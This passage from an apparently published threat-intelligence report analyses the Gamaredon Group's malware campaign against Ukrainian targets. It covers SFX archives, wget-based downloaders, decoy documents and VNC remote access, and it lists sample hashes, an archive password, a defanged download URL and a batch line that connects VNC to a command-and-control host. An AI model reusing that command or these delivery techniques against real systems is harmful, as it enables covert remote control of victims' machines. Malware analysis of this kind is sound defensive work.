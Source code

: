 Figure 1 Remote Manipulator System Interface
One such self-extracting archive (ca87eb1a21c6d4ffd782b225b178ba65463f73de6f4c736eb135be5864f556dc) was first observed around April of 2014.  The password (reused by many of the password protected SFX payloads) it used to extract itself is “1234567890__”. The files included in this SFX file we observed include a batch file named “123.cmd” and another SFX named “setting.exe”. This second SFX contains a .MSI installer package which installs Remote Manipulator System and a batch script which handles the installation.
Later payloads would write batch scripts to disk as well as wget binaries. The batch scripts would use the wget binaries to download and execute additional executables. The scripts would also use wget to send POST requests to command and control (C2) servers that would contain information about the compromised system. Some of these payloads included decoy documents that would open when the malware is executed.
Three examples of this type of payload include:

a6a44ee854c846f31d15b0ca2d6001fb0bdddc85f17e2e56abb2fa9373e8cfe7
b5199a302f053e5e9cb7e82cc1e502b5edbf04699c2839acb514592f2eeabb13
3ef3a06605b462ea31b821eb76b1ea0fdf664e17d010c1d5e57284632f339d4b

We first observed these samples using wget in 2014. The filenames and decoy documents these samples used attempt to lure individuals by using the presidential administration of Ukraine, Ukrainian national security and defense, the Anti-Terrorist Operation Zone in the Ukraine, and Ukrainian patriotism as subjects. The text of one such decoy document is pictured below.

Figure 2 Ukrainian Decoy Document used by Gamaredon Group
Other observed payloads would, again, use SFX files to deliver a batch script and an executable that allowed remote access through the VNC protocol. These VNC exectuables would either be included in the SFX file or downloaded by the batch script. We found one URL (now taken down) that hosted a VNC executable that the malware would attempt to download and install at hxxp://prestigeclub.frantov.com[.]ua/press-center/press/chrome-xvnc-v5517.exe.
The batch script would then attempt to have the VNC program connect to a command and control (C2) server to enable the server to control the compromised system. All VNC installations on compromised systems that we observed have used the same configuration file, RC4 key file, and passwords.
One such sample, cfb8216be1a50aa3d425072942ff70f92102d4f4b155ab2cf1e7059244b99d31 first appeared around January of 2015. The batch script utilized in this sample ensures a VNC connection is available:





 start winlogons -autoreconnect -id:%sP% -connect grom56.ddns.net:5500




1

 start winlogons -autoreconnect -id:%sP% -connect grom56.ddns.net:5500





The path configured in the VNC configuration file across all implants employing VNC (UltraVNC.ini) is “Y:\ПРОБА\Создание троянов\создание RMS\vnc”. This isn’t the only place hardcoded Cyrillic file paths are used by implants. Many of the batch scripts also use hardcoded paths such as “Главное меню\Программы\Автозагрузка”. Many payloads also include a VBS script which raises a dialog box to the users asking them to run the malware again. It reads, “Ошибка при инициализации приложения (0xc0000005). Повторить попытку открытия файла?” (English Translation from Russian: Application failed to initialize (0xc0000005). Try to open the file again?).
Some of the SFX files also include another legitimate application called ChkFlsh.exe (8c9d690e765c7656152ad980edd2200b81d2afceef882ed81287fe212249f845). This application was written by a Ukrainian programmer and is used to check performance of USB flash drives. Its value to the attackers to the attackers isn’t clear but one possibility is that it is somehow used to steal or monitor files on USB devices. In our research, we found this application present in some SFX files along with VNC programs and in some SFX files that didn’t have VNC programs included.
Custom Implants
While the most recent samples observed still use batch scripts and SFX files, the Gamaredon Group has moved away from applications like wget, Remote Manipulator Tool, VNC and ChkFlsh.exe. Instead of using wget the attackers are distributing custom developed downloaders, and instead of Remote Manipulator or VNC the malware is using a custom developed remote access implant.